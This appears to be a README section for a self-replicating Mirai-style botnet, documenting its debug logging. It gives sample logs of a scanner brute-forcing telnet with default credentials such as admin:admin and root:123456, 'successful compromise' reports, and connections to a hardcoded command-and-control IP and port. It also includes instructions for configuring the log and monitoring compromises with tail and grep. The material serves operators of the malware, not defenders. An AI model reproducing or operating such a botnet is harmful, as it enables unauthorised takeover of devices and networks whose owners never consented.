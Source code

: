 ## Debug Log Examples

### **Scanner Initialization**
```
[2024-01-15 10:30:15] [SELFREP] Bot started with PID: 12345
[2024-01-15 10:30:15] [SELFREP] Initializing self-replication scanner
[2024-01-15 10:30:15] [SCANNER] Scanner process started with PID: 12346
[2024-01-15 10:30:15] [SELFREP] Scanner initialized successfully
```

### **Target Discovery**
```
[2024-01-15 10:30:20] [SCANNER] Attempting to brute force IP 192.168.1.100:23
[2024-01-15 10:30:25] [SCANNER] Attempting to brute force IP 10.0.0.50:23
[2024-01-15 10:30:30] [SCANNER] Attempting to brute force IP 172.16.0.25:23
```

### **Successful Compromises**
```
[2024-01-15 10:31:45] [SCANNER] Reporting successful compromise: 192.168.1.100:23 with auth admin:admin
[2024-01-15 10:32:10] [SCANNER] Reporting successful compromise: 10.0.0.50:23 with auth root:123456
```

### **CNC Connections**
```
[2024-01-15 10:30:15] [SELFREP] Using hardcoded CNC IP for self-rep: 185.247.117.214:59666
[2024-01-15 10:30:16] [SELFREP] Successfully connected to CNC server
```

## Configuration

### **Log File Location**
To change the log file location, modify `main.c`:
```c
// Change this line in main.c
debug_log_init("/tmp/selfrep_debug.log");
// To:
debug_log_init("/path/to/your/custom.log");
```

### **Log Levels**
The debug logging includes different categories:
- `[SELFREP]` - Main bot and self-replication activities
- `[SCANNER]` - Scanner and target discovery activities  
- `[CONNECTION]` - CNC connection activities

## Monitoring and Analysis

### **Real-time Monitoring**
```bash
# Monitor all self-rep activities
tail -f /tmp/selfrep_debug.log

# Filter for specific activities
tail -f /tmp/selfrep_debug.log | grep "SCANNER"
tail -f /tmp/selfrep_debug.log | grep "successful compromise"
```
